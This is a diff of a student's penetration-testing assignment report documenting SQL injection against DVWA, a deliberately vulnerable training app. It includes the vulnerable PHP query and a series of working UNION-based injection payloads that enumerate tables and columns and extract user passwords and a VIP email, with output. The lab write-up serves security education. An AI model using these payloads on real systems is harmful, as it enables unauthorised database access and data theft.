

Before and after one commit to sourander/KYBS2001-penetration-testing, a Typst document (report/assignment_05.typ): part of the page before the commit and two parts of pages 1 and 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with Typst 0.15.

Commit message:
Assignment 5 done

````diff
--- a/report/assignment_05.typ
+++ b/report/assignment_05.typ
@@ -2,14 +2,87 @@
 
 == Overview and Definitions
 
-This section will document the DVWA SQL injection assignment without randomization, including the injection point, extraction approach, impact assessment, and defensive measures.
-
-Linuix Shell Scripting for Hackers has content about this: https://learning.oreilly.com/library/view/linux-shell-scripting/9781835462195/Text/Chapter_05.xhtml#_idParaDest-140
-
-As does the Learn Penetration testing: https://learning.oreilly.com/library/view/learn-penetration-testing/9781838640163/254ee707-4f28-489b-aa36-9f773a01c0f1.xhtml
+This section will document the DVWA SQL injection assignment. As a data engineer, SQL is a familiar language to me. I will be using a book _Linix Shell Scripting for Hackers_ as a guide here. It is written by Valentine Nachi and Donald Tevault (Packt Publishing 2026). Another book I am browsing is _Learn Penetration Testing_ by Rishalin Pillay (Pkact Publishing 2019). Both of these books have sections on SQL injection, and both are using DVWA as a target. I tried to infer what the "without randomization" part of the assignment means, but I am not sure. I suppose it is some "low" difficulty setting in DVWA, but books did not mention this. Maybe the table names could be randomized in a "medium" or "high" difficulty setting, or session tokens, or something else.
 
 == Target Setup and Relevant Code
 
+Once again, I am grey-box testing DVWA, so I have access to the source code. The "SQL Injection" module has a source code available, which contains, after some cleanup...
+
+```php
+<?php
+
+// Get input
+$id = $_REQUEST[ 'id' ];
+
+// Check database
+$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
+
+// Get values
+$first = mysql_result( $result, $i, "first_name" );
+$last  = mysql_result( $result, $i, "last_name" );
+
+?>
+```
+
 == Observations
 
+Based on the hints in the assignment, I first tried a simple query fetching two literals, `' UNION SELECT 0, 1 #`, which worked:
+
+```
+ID: ' UNION SELECT 0, 1 #
+First name: 0
+Surname: 1
+```
+
+Then, I checked the MySQL reference docs what are the column names in the `information_schema.tables` table. The ones I need are `table_schema` and `table_name`. I tried the following query:
+
+```
+' UNION SELECT table_schema, table_name FROM information_schema.tables #
+```
+
+The potentially interesting tables include `dvwa.users` and `dvwa.vips`. I wanted to find out the column names in the `dvwa.users` table, so I tried:
+
+```
+' UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'users' #
+```
+
+The columns are:
+
+- user_id
+- first_name
+- last_name
+- user
+- password
+- avatar
+- last_login
+- failed_login
+
+Finally, I wanted to fetch the user names and passwords, so I tried:
+
+```
+' UNION SELECT user, password FROM dvwa.users #
+```
+
 == Assignment Solution
+
+In the assignment, I wasn't asked for the password but for the email address. Thus, I wrote:
+
+```
+' UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'vips' #
+```
+
+This table has columns id, name and email. I then wrote:
+
+```
+' UNION SELECT name, email FROM dvwa.vips #
+```
+
+It returned the following:
+
+```
+ID: ' UNION SELECT name, email FROM dvwa.vips #
+First name: sarah
+Surname: trohitrulz6z@dibon.site
+```
+
+The database is being queried with wide permissions, and there is no input validation, so I can fetch what I want. Thus, I rate this vulnerability as *CRITICAL*.
````
